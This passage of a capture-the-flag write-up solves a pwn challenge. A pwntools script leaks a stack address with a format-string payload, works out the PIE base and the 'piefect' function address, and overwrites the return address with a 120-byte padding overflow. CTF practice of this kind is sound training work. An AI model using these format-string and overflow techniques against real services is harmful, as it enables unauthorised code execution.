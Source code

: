 ```py
p = remote("SERVER", PORT)

payload = b'%13$p' # leak the 13th address on stack
p.sendlineafter("flavour: \n", payload)
p.recvuntil("taste: \n")
result = int(p.recvline(), 16)
print(result)
```

calculate for address of `piefect` function.

```py
piebase = result - 0xa49 # calculate base address
piefect_addr= piebase + 0x8ea # address of `piefect` function
```

After `decision` is called, we will perform ret2win.
```
payload2 = b'A' * 120
payload2 += piefect_addr
```

### Final Exploit

This includes the script for leaking address.

```py
from pwn import *

# context.log_level = 'error'
# for i in range(50):
#     try:
#         p = process("./chall")
#         payload = '%{}$p'.format(i).encode()
#         p.sendlineafter("flavour: \n", payload)
#         p.recvuntil("taste: \n")
#         result = p.recvline().strip().decode()
#         print("{}: ".format(i) + result)
#     except EOFError:
#         pass

p = remote("SERVER", PORT)

payload = b'%13$p' # leak the 13th address
p.sendlineafter("flavour: \n", payload)
p.recvuntil("taste: \n")
result = int(p.recvline(), 16) # convert to int so we can add offset

piebase = result - 0xa49
piefect_addr= piebase + 0x8ea # address of piefect function

payload2 = b'A' * 120 # padding
payload2 += p64(piefect_addr) # ret2win

p.sendlineafter("mind. \n",payload2)
p.interactive()
```
